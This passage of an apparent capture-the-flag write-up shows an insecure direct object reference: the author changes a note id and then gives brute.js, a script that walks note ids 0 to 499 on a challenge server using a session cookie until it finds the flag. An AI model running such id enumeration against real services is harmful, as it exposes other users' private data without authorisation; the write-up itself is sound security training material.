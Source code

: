 /33 ? hmm that’s interesting one, lets try to change the value to 1\.   

![](image37.png)
  
Okayy it work, so we can just brute the id to get the flag notes by using some bruteforce id, i already create the script

`brute.js`:
{{< highlight js >}}
(async () => {
    const e = "http://159.89.193.103:5555",
        s = "<JWT VALUE>";
    for (let t = 0; t < 500; t++) try {
        const n = await (await fetch(`${e}/note/${t}`, {
                method: "GET",
                headers: {
                    Cookie: `session=${s}`
                },
            })).text(),
            o = n.match(/<p>(.*?)<\/p>/g)?.map((e) => e.replace(/<\/?p>/g, "")) || [];
        if ((console.log(`Note ${t}:`, o), o.some((e) => e.includes("CJ{")))) return void console.log("Found flag at note:", t);
    } catch (e) {
        console.error(`Error fetching note ${t}:`, e);
    }
})();
{{< /highlight >}}
